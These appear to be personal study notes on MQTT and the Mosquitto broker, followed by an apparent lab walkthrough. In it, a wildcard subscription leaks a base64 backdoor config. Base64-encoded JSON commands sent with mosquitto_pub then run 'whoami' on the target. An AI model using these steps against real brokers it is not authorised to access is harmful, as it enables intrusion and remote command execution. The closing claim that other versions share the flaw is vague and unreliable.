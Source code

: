 #MQTT #mosquitto #subscriber #publisher 

1. MQTT _Message Queuing Telemetry Transport_
	1. it is a protocol used to communion b/w device mainly IOT's

2. Mosquito 
	1. It is a open-source broker which helps to communicate to MQTT protocol

--> It works on a subscriber / publisher model
	**subscriber** : 
	*A subscriber is a client that listens (or subscribes) to a specific topic. 
	When a message is published to that topic, the MQTT broker sends the message to all subscribers of that topic*
-
	**publisher** : 
	- *A publisher is a client that sends (or publishes) messages to a specific topic on the MQTT broker. 
	- The publisher does not need to know who will receive these messages; 
	- it simply sends data to a topic and leaves the responsibility of distributing the message to the broker.*
-
	**topic** : *it is a path where the messaged is to be transferred.
	-> Example : /home/kitchen/heater*
-
--> The MQTT Broker allotted different topic (paths) to different subscribers (devices) which are controlled by publishers (user/machine).

##### Tools

--> `sudo apt install mosquitto mosquitto-client -y`
-
	Notes :
	'#' --> used for all
	* --> used for one
	example : /home/kitchen/# -> it will send msg to all the appliances to kitchen
-
	`mosquitto_sub` --> used to get the messages which are rerceived by the subscriber
	--> _syntax :_
	-> `mosquitto_sub -t "#" -h 10.10.232.80`
-
	`mosquitto_pub` --> used to publish (send) messages to the subscriber.

---------

1. First capture all the message / subscriber / topic etc on the service
	`mosquitto_sub -t "#" -h 10.10.232.80`
	-> it might looks like 
```
{"id":6303134845423256684,"gain":45}  
{"id":7062282878224178102,"color":"GREEN","status":"ON"}  
{"id":5297822194260674402,"temperature":24.360235}  

<-SNIP->

{"id":11505589973457021977,"temperature":23.719482}  
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==  
{"id":16076301308523402932,"color":"RED","status":"ON"}

<-SNIP->
```

--> Decode b64 string in urge to get something useful
```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

--> We found _pub_topic_ --> `'U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub'`and _sub_topic_ --> `XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub`

--> If we can find these both , then we can able to send messages to them and get respose

1. setup subscriber to get message 
	`mosquitto_sub -h 10.10.179.191 -t 'U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub'`

2. send msg using publisher client
	`mosquitto_pub -h 10.10.179.191 -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "CMD ls"`

3. now here , we send CMD because we have registered command ,entioned in the respose we got from b64 decoded string 
4. -> we got a respose : 
```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

NOTE : So , first we have to create a message in same format then convert that into B64 & then we have to sent it though publisher

EXAMPLE
```JSON
	{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "whoami"}
```
Convert it into Base64 
```
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAid2hvYW1pIn0=
```
Send it
`mosquitto_pub -h 10.10.179.191 -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAid2hvYW1pIn0=' 

-> then we'll get a response on subscriber we setup in point 1 in b64 
-> decode it and you'll get `whoami` result.

version : ***mosquitto version 2.0.14***

----------

**NOTE** : This was based on this particular version but there's will be similar type of vulnerability you might found in different versions.


